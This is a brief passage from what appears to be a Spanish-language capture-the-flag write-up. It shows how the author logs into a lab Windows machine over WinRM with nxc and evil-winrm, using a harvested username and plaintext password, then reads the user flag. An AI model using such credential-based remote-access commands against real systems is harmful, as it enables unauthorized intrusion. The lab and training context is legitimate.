 ### Abusing WinRM - EvilWinRM

Validaremos que a través de WinRM podemos acceder, comprobamos que nos aparece el mensaje de `Pwn3d`, por otro lado, verificamos que hemos logrado acceder al equipo mediante la herramienta de `evil-winrm` y verificado la flag de **user.txt.**

```bash
nxc winrm 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3'

evil-winrm -i 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3'
```

<figure><img src="../../.gitbook/assets/3500_vmware_MSWdZwsqHU.png" alt=""><figcaption></figcaption></figure>

Verificaremos de los privilegios del usuario actual y de los grupos a los cuales forma parte, tampoco verificamos que forme parte de algún grupo interesante.

<figure><img src="../../.gitbook/assets/3501_vmware_U5tBmpw6Qq.png" alt="" width="456"><figcaption></figcaption></figure>
